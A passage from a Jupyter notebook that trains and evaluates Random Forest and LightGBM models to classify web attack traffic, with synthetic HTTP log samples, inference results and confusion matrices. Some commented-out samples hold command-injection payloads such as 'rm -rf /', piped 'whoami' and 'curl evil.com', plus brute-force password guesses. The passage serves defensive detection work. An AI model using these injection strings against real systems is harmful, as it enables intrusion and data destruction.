    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:00:41","source_ip":"192.0.2.151","http_method":"POST","url":"/system","query_parameters":"cmd=rm -rf /","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:00:51","source_ip":"192.0.2.152","http_method":"POST","url":"/ping","query_parameters":"host=127.0.0.1|whoami","status_code":200,"response_size":300,"referrer":"-","user_agent":"bash"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:01:01","source_ip":"192.0.2.152","http_method":"POST","url":"/api","query_parameters":"cmd=`id`","status_code":200,"response_size":300,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:01:11","source_ip":"192.0.2.153","http_method":"POST","url":"/run","query_parameters":"cmd=ping;curl evil.com","status_code":200,"response_size":300,"referrer":"-","user_agent":"python"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:01:21","source_ip":"192.0.2.153","http_method":"POST","url":"/exec","query_parameters":"cmd=$(whoami)","status_code":200,"response_size":300,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:01:31","source_ip":"192.0.2.154","http_method":"POST","url":"/system","query_parameters":"cmd=ps aux","status_code":200,"response_size":300,"referrer":"-","user_agent":"bash"},
    
    # ================= BRUTEFORCE =================
    # {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:00:01","source_ip":"203.0.113.40","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=123456","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    # {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:00:11","source_ip":"203.0.113.40","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=password","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    # {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:00:21","source_ip":"203.0.113.40","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=admin","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    # {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:00:31","source_ip":"203.0.113.41","http_method":"POST","url":"/wp-login.php","query_parameters":"log=admin&pwd=12345","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    # {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:00:41","source_ip":"203.0.113.41","http_method":"POST","url":"/wp-login.php","query_parameters":"log=admin&pwd=qwerty","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    # {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:00:51","source_ip":"203.0.113.42","http_method":"POST","url":"/admin","query_parameters":"user=root&pass=root","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    # {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:01:01","source_ip":"203.0.113.42","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=welcome","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    # {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:01:11","source_ip":"203.0.113.43","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=letmein","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    # {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:01:21","source_ip":"203.0.113.43","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=admin123","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    # {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:01:31","source_ip":"203.0.113.44","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=123456789","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    
    # # ================= BENIGN SUSPICIOUS =================
    {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:00:01","source_ip":"192.0.2.200","http_method":"GET","url":"/admin","query_parameters":"debug=true","status_code":403,"response_size":300,"referrer":"-","user_agent":"python-requests"},
    {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:00:11","source_ip":"192.0.2.200","http_method":"GET","url":"/test","query_parameters":"probe=1","status_code":403,"response_size":300,"referrer":"-","user_agent":"curl"},
    {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:00:21","source_ip":"192.0.2.201","http_method":"GET","url":"/admin/panel","query_parameters":"check=1","status_code":403,"response_size":300,"referrer":"-","user_agent":"bot"},
    {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:00:31","source_ip":"192.0.2.201","http_method":"GET","url":"/status","query_parameters":"debug=1","status_code":200,"response_size":300,"referrer":"-","user_agent":"curl"},
    {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:00:41","source_ip":"192.0.2.202","http_method":"GET","url":"/login","query_parameters":"remember=1","status_code":200,"response_size":300,"referrer":"-","user_agent":"python"},
    {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:00:51","source_ip":"192.0.2.202","http_method":"GET","url":"/probe","query_parameters":"scan=true","status_code":403,"response_size":300,"referrer":"-","user_agent":"bot"},
    {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:01:01","source_ip":"192.0.2.203","http_method":"GET","url":"/api","query_parameters":"test=1","status_code":200,"response_size":300,"referrer":"-","user_agent":"curl"},
    {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:01:11","source_ip":"192.0.2.203","http_method":"GET","url":"/health","query_parameters":"","status_code":200,"response_size":300,"referrer":"-","user_agent":"python"},
    {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:01:21","source_ip":"192.0.2.204","http_method":"GET","url":"/check","query_parameters":"debug=0","status_code":403,"response_size":300,"referrer":"-","user_agent":"curl"},
    {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:01:31","source_ip":"192.0.2.204","http_method":"GET","url":"/admin","query_parameters":"try=1","status_code":403,"response_size":300,"referrer":"-","user_agent":"bot"}

]


df_inference_raw = pd.DataFrame([
    {k: v for k, v in s.items() if k != "attack_type_true"}
    for s in INFERENCE_SAMPLES
])
true_labels = [s["attack_type_true"] for s in INFERENCE_SAMPLES]

print(f"✅ Generated {len(df_inference_raw)} synthetic inference samples.")
display(df_inference_raw[["http_method", "url", "query_parameters", "status_code"]].head(9))


✅ Generated 10 synthetic inference samples.


,http_method,url,query_parameters,status_code
0,GET,/admin,debug=true,403
1,GET,/test,probe=1,403
2,GET,/admin/panel,check=1,403
3,GET,/status,debug=1,200
4,GET,/login,remember=1,200
5,GET,/probe,scan=true,403
6,GET,/api,test=1,200
7,GET,/health,,200
8,GET,/check,debug=0,403


In [58]:
# ── Load Saved Pipeline & Run Inference ──────────────────────────────────────

print("⏳ Loading saved pipeline from disk...")

rf_pipeline = joblib.load(MODEL_SAVE_PATH)

print(f"✅ Pipeline loaded: {MODEL_SAVE_PATH}")

# ── Predict ───────────────────────────────────────────────────────────────────

predictions = rf_pipeline.predict(df_inference_raw)
probabilities = rf_pipeline.predict_proba(df_inference_raw)

predicted_names = [CLASS_NAMES[p] for p in predictions]
confidence = probabilities.max(axis=1)

# ── Build results DataFrame ───────────────────────────────────────────────────

results_df = pd.DataFrame({
    "True Class": true_labels,
    "Predicted Class": predicted_names,
    "Confidence %": (confidence * 100).round(2),
    "Correct": ["✅" if t == p else "❌" for t, p in zip(true_labels, predicted_names)],
    "URL": df_inference_raw["url"].values,
    "Query (truncated)": df_inference_raw["query_parameters"].str[:55].values,
})

print("\n🛡️ Real-World Inference Results (Random Forest)")
print("=" * 80)
display(results_df)

correct = sum(1 for t, p in zip(true_labels, predicted_names) if t == p)

print(
    f"\nDemo Accuracy: {correct}/{len(true_labels)} "
    f"({correct/len(true_labels)*100:.0f}%)"
)

⏳ Loading saved pipeline from disk...


INFO: [Cleaner] Cleaning complete. Output shape: (10, 9)
INFO: [Cleaner] Cleaning complete. Output shape: (10, 9)


✅ Pipeline loaded: ThreatDetectionPipeline.pkl

🛡️ Real-World Inference Results (Random Forest)


,True Class,Predicted Class,Confidence %,Correct,URL,Query (truncated)
0,benign_suspicious,benign_suspicious,67.2000,✅,/admin,debug=true
1,benign_suspicious,normal,92.0000,❌,/test,probe=1
2,benign_suspicious,normal,55.8000,❌,/admin/panel,check=1
3,benign_suspicious,normal,92.0000,❌,/status,debug=1
4,benign_suspicious,benign_suspicious,65.2000,✅,/login,remember=1
5,benign_suspicious,normal,84.0000,❌,/probe,scan=true
6,benign_suspicious,normal,96.2000,❌,/api,test=1
7,benign_suspicious,normal,98.0000,❌,/health,
8,benign_suspicious,normal,90.8000,❌,/check,debug=0
9,benign_suspicious,benign_suspicious,53.8000,✅,/admin,try=1



Demo Accuracy: 3/10 (30%)


# **LightGBM**

In [59]:
from sklearn.pipeline import Pipeline
from sklearn.base import BaseEstimator, TransformerMixin
from lightgbm import LGBMClassifier
import pandas as pd
import numpy as np
import logging

logger = logging.getLogger(__name__)

# =============================================================================
# LightGBM Parameters
# =============================================================================

LGBM_PARAMS = {
    "n_estimators": 500,
    "learning_rate": 0.05,
    "num_leaves": 31,
    "max_depth": -1,
    "subsample": 0.8,
    "colsample_bytree": 0.8,
    "random_state": 42,
    "n_jobs": -1,
    "class_weight": "balanced"
}

# =============================================================================
# Feature Selector (UNCHANGED)
# =============================================================================

class FeatureSelector(BaseEstimator, TransformerMixin):
    """
    Selects the predefined FEATURE_COLS from an engineered DataFrame
    and returns a float32 numpy array.
    """

    def __init__(self, feature_cols: list):
        self.feature_cols = feature_cols

    def fit(self, X: pd.DataFrame, y=None):
        return self

    def transform(self, X: pd.DataFrame, y=None) -> np.ndarray:
        available = [c for c in self.feature_cols if c in X.columns]

        if len(available) < len(self.feature_cols):
            missing = set(self.feature_cols) - set(available)
            logger.warning(
                f"[Selector] Missing columns filled with 0: {missing}"
            )

        arr = X.reindex(columns=self.feature_cols, fill_value=0)
        return arr.values.astype(np.float32)

# =============================================================================
# LightGBM Pipeline Builder
# =============================================================================

def build_lgbm_pipeline(lgbm_params: dict = None) -> Pipeline:
    """
    Assemble and return the complete Threat Detection Pipeline
    using LightGBM.
    """

    params = lgbm_params or LGBM_PARAMS.copy()

    pipeline = Pipeline(steps=[
        ("cleaner",   DataCleanerTransformer()),
        ("feat_eng",  FeatureEngineeringTransformer()),
        ("encoder",   CategoricalEncoderTransformer()),
        ("selector",  FeatureSelector(feature_cols=FEATURE_COLS)),
        ("model",     LGBMClassifier(**params)),
    ])

    return pipeline

# =============================================================================
# Create LightGBM Pipeline
# =============================================================================

lgbm_pipeline = build_lgbm_pipeline()

print("✅ LightGBM Threat Detection Pipeline assembled.")

print("\nPipeline steps:")
for name, step in lgbm_pipeline.steps:
    print(f"   {name:<12} → {type(step).__name__}")

✅ LightGBM Threat Detection Pipeline assembled.

Pipeline steps:
   cleaner      → DataCleanerTransformer
   feat_eng     → FeatureEngineeringTransformer
   encoder      → CategoricalEncoderTransformer
   selector     → FeatureSelector
   model        → LGBMClassifier


In [60]:
# import joblib

# joblib.dump(lgbm_pipeline.named_steps["model"], "lgbm_model.pkl")

In [61]:
# ── 5-Fold Cross-Validation (on training set) ────────────────────────────────

print("⏳ Running 5-fold cross-validation on training data (LightGBM)...")

skf = StratifiedKFold(
    n_splits=5,
    shuffle=True,
    random_state=RANDOM_STATE
)

cv_scores = []

for fold, (tr_idx, vl_idx) in enumerate(
    skf.split(df_train_raw, y_train_raw), 1
):

    X_cv_tr = df_train_raw.iloc[tr_idx].reset_index(drop=True)
    y_cv_tr = y_train_raw[tr_idx]

    X_cv_vl = df_train_raw.iloc[vl_idx].reset_index(drop=True)
    y_cv_vl = y_train_raw[vl_idx]

    # Sample weights (same logic as RF)
    sw_cv = compute_sample_weight(
        class_weight="balanced",
        y=y_cv_tr
    )

    # Build a fresh LightGBM pipeline
    fold_pipeline = build_lgbm_pipeline()

    # Train LightGBM
    fold_pipeline.fit(
        X_cv_tr,
        y_cv_tr,
        model__sample_weight=sw_cv   # 🔥 IMPORTANT CHANGE
    )

    # Predict
    y_cv_pred = fold_pipeline.predict(X_cv_vl)

    # Score
    fold_f1 = f1_score(
        y_cv_vl,
        y_cv_pred,
        average="weighted"
    )

    cv_scores.append(fold_f1)

    print(f"   Fold {fold}: Weighted F1 = {fold_f1:.4f}")

print("\n✅ Cross-validation complete.")
print(
    f"   Mean Weighted F1 : "
    f"{np.mean(cv_scores):.4f} ± {np.std(cv_scores):.4f}"
)

⏳ Running 5-fold cross-validation on training data (LightGBM)...


INFO: [Cleaner] Cleaning complete. Output shape: (55999, 10)
INFO: [Encoder] Fitted. Encoded columns: ['method_type', 'browser_type']


[LightGBM] [Info] Auto-choosing row-wise multi-threading, the overhead of testing was 0.006657 seconds.
You can set `force_row_wise=true` to remove the overhead.
And if memory is not enough, you can set `force_col_wise=true`.
[LightGBM] [Info] Total Bins 1427
[LightGBM] [Info] Number of data points in the train set: 55999, number of used features: 33
[LightGBM] [Info] Start training from score -2.895321
[LightGBM] [Info] Start training from score -1.573565
[LightGBM] [Info] Start training from score -1.573565
[LightGBM] [Info] Start training from score -2.133181
[LightGBM] [Info] Start training from score -2.266712
[LightGBM] [Info] Start training from score -3.742568
[LightGBM] [Info] Start training from score -2.133181
[LightGBM] [Info] Start training from score -2.489856
[LightGBM] [Info] Start training from score -2.489856
[LightGBM] [Warning] No further splits with positive gain, best gain: -inf
[LightGBM] [Warning] No further splits with positive gain, best gain: -inf
[LightGBM] 

INFO: [Cleaner] Cleaning complete. Output shape: (14000, 10)


   Fold 1: Weighted F1 = 0.9230


...

   Fold 4: Weighted F1 = 0.9311


INFO: [Cleaner] Cleaning complete. Output shape: (56000, 10)
INFO: [Encoder] Fitted. Encoded columns: ['method_type', 'browser_type']


[LightGBM] [Info] Auto-choosing col-wise multi-threading, the overhead of testing was 0.016534 seconds.
You can set `force_col_wise=true` to remove the overhead.
[LightGBM] [Info] Total Bins 1425
[LightGBM] [Info] Number of data points in the train set: 56000, number of used features: 33
[LightGBM] [Info] Start training from score -2.895320
[LightGBM] [Info] Start training from score -1.573564
[LightGBM] [Info] Start training from score -1.573564
[LightGBM] [Info] Start training from score -2.133180
[LightGBM] [Info] Start training from score -2.266711
[LightGBM] [Info] Start training from score -3.742618
[LightGBM] [Info] Start training from score -2.133180
[LightGBM] [Info] Start training from score -2.489855
[LightGBM] [Info] Start training from score -2.489855
[LightGBM] [Warning] No further splits with positive gain, best gain: -inf
[LightGBM] [Warning] No further splits with positive gain, best gain: -inf
[LightGBM] [Warning] No further splits with positive gain, best gain: -inf


INFO: [Cleaner] Cleaning complete. Output shape: (13999, 10)


   Fold 5: Weighted F1 = 0.9272

✅ Cross-validation complete.
   Mean Weighted F1 : 0.9268 ± 0.0026


In [62]:
# ── Final Model Training on Full Training Set ────────────────────────────────

print("⏳ Training final Threat Detection LightGBM model...")
print(f"   Training rows : {len(df_train_raw):,}")
print(f"   Features      : {len(FEATURE_COLS)}")
print(f"   Classes       : {NUM_CLASSES}")

# Build LightGBM pipeline
lgbm_pipeline = build_lgbm_pipeline()

# Compute sample weights (still useful for imbalance)
sample_weights_train = compute_sample_weight(
    class_weight="balanced",
    y=y_train_raw
)

# ── Train full pipeline ──────────────────────────────────────────────────────
lgbm_pipeline.fit(
    df_train_raw,
    y_train_raw,
    model__sample_weight=sample_weights_train   # 🔥 updated prefix
)

print("\n✅ Final LightGBM model trained.")

# ── Extract model ────────────────────────────────────────────────────────────
lgbm_model = lgbm_pipeline.named_steps["model"]

print(f"Boosting iterations used: {lgbm_model.n_estimators}")

⏳ Training final Threat Detection LightGBM model...
   Training rows : 69,999
   Features      : 33
   Classes       : 9


INFO: [Cleaner] Cleaning complete. Output shape: (69999, 10)
INFO: [Encoder] Fitted. Encoded columns: ['method_type', 'browser_type']


[LightGBM] [Info] Auto-choosing col-wise multi-threading, the overhead of testing was 0.014909 seconds.
You can set `force_col_wise=true` to remove the overhead.
[LightGBM] [Info] Total Bins 1450
[LightGBM] [Info] Number of data points in the train set: 69999, number of used features: 33
[LightGBM] [Info] Start training from score -2.895321
[LightGBM] [Info] Start training from score -1.573565
[LightGBM] [Info] Start training from score -1.573565
[LightGBM] [Info] Start training from score -2.133181
[LightGBM] [Info] Start training from score -2.266712
[LightGBM] [Info] Start training from score -3.742578
[LightGBM] [Info] Start training from score -2.133181
[LightGBM] [Info] Start training from score -2.489856
[LightGBM] [Info] Start training from score -2.489856
[LightGBM] [Warning] No further splits with positive gain, best gain: -inf
[LightGBM] [Warning] No further splits with positive gain, best gain: -inf
[LightGBM] [Warning] No further splits with positive gain, best gain: -inf


In [63]:
# ── Test Set Predictions ─────────────────────────────────────────────────────
y_pred      = lgbm_pipeline.predict(df_test_raw)
y_pred_prob = lgbm_pipeline.predict_proba(df_test_raw)

# ── Metrics ───────────────────────────────────────────────────────────────────
acc      = accuracy_score(y_test_raw, y_pred)
bal_acc  = balanced_accuracy_score(y_test_raw, y_pred)
prec_w   = precision_score(y_test_raw, y_pred, average="weighted", zero_division=0)
rec_w    = recall_score(y_test_raw, y_pred, average="weighted", zero_division=0)
f1_w     = f1_score(y_test_raw, y_pred, average="weighted", zero_division=0)
f1_mac   = f1_score(y_test_raw, y_pred, average="macro", zero_division=0)
f1_mic   = f1_score(y_test_raw, y_pred, average="micro", zero_division=0)

print("=" * 60)
print("  TEST SET EVALUATION RESULTS (LightGBM)")
print("=" * 60)
print(f"  Accuracy             : {acc:.4f}  ({acc*100:.2f}%)")
print(f"  Balanced Accuracy    : {bal_acc:.4f}")
print(f"  Precision (weighted) : {prec_w:.4f}")
print(f"  Recall    (weighted) : {rec_w:.4f}")
print(f"  F1        (weighted) : {f1_w:.4f}")
print(f"  F1        (macro)    : {f1_mac:.4f}")
print(f"  F1        (micro)    : {f1_mic:.4f}")
print("=" * 60)

print("\n📋 Classification Report:")
print(classification_report(
    y_test_raw, y_pred,
    target_names=CLASS_NAMES,
    digits=4,
    zero_division=0
))

INFO: [Cleaner] Cleaning complete. Output shape: (15000, 10)
INFO: [Cleaner] Cleaning complete. Output shape: (15000, 10)


  TEST SET EVALUATION RESULTS (LightGBM)
  Accuracy             : 0.9225  (92.25%)
  Balanced Accuracy    : 0.9493
  Precision (weighted) : 0.9282
  Recall    (weighted) : 0.9225
  F1        (weighted) : 0.9235
  F1        (macro)    : 0.9303
  F1        (micro)    : 0.9225

📋 Classification Report:
                     precision    recall  f1-score   support

  benign_suspicious     0.8183    0.8969    0.8558      2250
         bruteforce     0.9326    0.9917    0.9612       600
  command_injection     0.6823    0.8983    0.7755       600
directory_traversal     0.9903    0.9676    0.9788      1050
                lfi     0.8943    0.9592    0.9256      1200
             normal     0.9481    0.8589    0.9013      5250
                rfi     0.9905    0.9943    0.9924      1050
      sql_injection     0.9879    0.9767    0.9822      1500
                xss     1.0000    1.0000    1.0000      1500

           accuracy                         0.9225     15000
          macro avg     0.

INFO: [Cleaner] Cleaning complete. Output shape: (15000, 10)


[[2018    4   28    0    9  191    0    0    0]
 [   0  595    2    0    1    2    0    0    0]
 [   5    1  539    2   17   29    1    6    0]
 [   0    0    4 1016   30    0    0    0    0]
 [   1    4   14    5 1151   16    9    0    0]
 [ 436   33  189    0   71 4509    0   12    0]
 [   0    0    0    0    6    0 1044    0    0]
 [   6    1   14    3    2    9    0 1465    0]
 [   0    0    0    0    0    0    0    0 1500]]




✅ LightGBM confusion matrix rendered.


In [64]:
# ── Confusion Matrix ──────────────────────────────────────────────────────────

lgbm_pred = lgbm_pipeline.predict(df_test_raw)

cm = confusion_matrix(y_test_raw, lgbm_pred)
print(cm)

# Safe normalization (avoids division by zero)
cm_norm = cm.astype(float) / np.clip(cm.sum(axis=1, keepdims=True), 1, None)

fig, axes = plt.subplots(1, 2, figsize=(18, 7))
fig.suptitle("LightGBM — Confusion Matrix (Test Set)", fontsize=14, fontweight="bold")

# ── Absolute counts ───────────────────────────────────────────────────────────
ax = axes[0]
sns.heatmap(
    cm,
    annot=True,
    fmt="d",
    cmap="Blues",
    xticklabels=CLASS_NAMES,
    yticklabels=CLASS_NAMES,
    linewidths=0.5,
    ax=ax,
    cbar=True
)
ax.set_title("Absolute Counts")
ax.set_xlabel("Predicted Class")
ax.set_ylabel("True Class")
ax.tick_params(axis="x", rotation=30)
ax.tick_params(axis="y", rotation=0)

# ── Normalized (recall per class) ────────────────────────────────────────────
ax = axes[1]
sns.heatmap(
    cm_norm,
    annot=True,
    fmt=".2%",
    cmap="RdYlGn",
    xticklabels=CLASS_NAMES,
    yticklabels=CLASS_NAMES,
    linewidths=0.5,
    vmin=0,
    vmax=1,
    ax=ax,
    cbar=True
)
ax.set_title("Row-Normalized (Recall per Class)")
ax.set_xlabel("Predicted Class")
ax.set_ylabel("True Class")
ax.tick_params(axis="x", rotation=30)
ax.tick_params(axis="y", rotation=0)

plt.tight_layout()
plt.savefig(r"D:\c4\results\lgbm_confusion_matrix.png", bbox_inches="tight", dpi=110)

plt.show()
print("✅ LightGBM confusion matrix rendered.")

INFO: [Cleaner] Cleaning complete. Output shape: (15000, 10)


[[2018    4   28    0    9  191    0    0    0]
 [   0  595    2    0    1    2    0    0    0]
 [   5    1  539    2   17   29    1    6    0]
 [   0    0    4 1016   30    0    0    0    0]
 [   1    4   14    5 1151   16    9    0    0]
 [ 436   33  189    0   71 4509    0   12    0]
 [   0    0    0    0    6    0 1044    0    0]
 [   6    1   14    3    2    9    0 1465    0]
 [   0    0    0    0    0    0    0    0 1500]]




✅ LightGBM confusion matrix rendered.


In [65]:
# ── Confusion Matrix ──────────────────────────────────────────────────────────

lgbm_pred = lgbm_pipeline.predict(df_test_raw)

# Compute the full confusion matrix
cm = confusion_matrix(y_test_raw, lgbm_pred)
print(cm)

# Remove row 0 and column 0 for plotting
cm_plot = cm[1:, 1:]
class_names = CLASS_NAMES[1:]

# Safe normalization (avoids division by zero)
cm_norm = cm_plot.astype(float) / np.clip(cm_plot.sum(axis=1, keepdims=True), 1, None)

fig, axes = plt.subplots(1, 2, figsize=(18, 7))
fig.suptitle("LightGBM — Confusion Matrix (Test Set)", fontsize=14, fontweight="bold")

# ── Absolute counts ───────────────────────────────────────────────────────────
ax = axes[0]
sns.heatmap(
    cm_plot,
    annot=True,
    fmt="d",
    cmap="Blues",
    xticklabels=class_names,
    yticklabels=class_names,
    linewidths=0.5,
    ax=ax,
